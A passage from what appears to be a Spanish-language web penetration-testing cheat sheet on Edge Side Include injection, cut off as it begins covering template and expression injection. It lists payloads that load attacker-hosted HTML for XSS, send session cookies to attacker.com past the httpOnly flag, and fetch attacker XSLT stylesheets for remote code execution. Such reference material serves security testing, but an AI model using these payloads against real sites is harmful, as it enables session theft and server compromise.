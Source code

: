 Es posible incluir un archivo HTML que resulte en XSS:

```
<esi:include src=http://attacker.com/xss.html>
```

El xss.html puede contener código similar:

```
<script>alert(1)</script>
```

Exfiltre las cookies directamente haciendo referencia a una variable especial:

```
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>
# which can bypass the httpOnly flag in case of its presence
```

Existe la posibilidad de RCE cuando la aplicación es compatible con XSLT

* XLST es un lenguaje dinámico que se utiliza para transformar archivos XML de acuerdo con un patrón específico

La carga útil para la inyección de ESI a la ejecución XSLT:

```
<esi:include src="http://attacker.com/file.xml" dca="xslt" stylesheet="http://attacker.com/transformation.xsl" />
```

Además:

```
- https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection
- https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations
```

### Evaluación lingüística <a href="#language-evaluation" id="language-evaluation"></a>

Incluye:

```
- Double evaluation
- Server-side Template Injections
- Expression language injections
```

> Todo ello debido a la capacidad de los usuarios para forzar al servidor de aplicaciones de destino a ejecutar código programático arbritrary. Este código siempre tiene la forma de una expresión

#### Motores de plantillas <a href="#template-engines" id="template-engines"></a>

De forma similar al SSI, algunas aplicaciones web usan sistemas de plantillas para permitir la generación de contenido dinámico en sus páginas:

```
$template->render("Hello ${user_name}!")
```
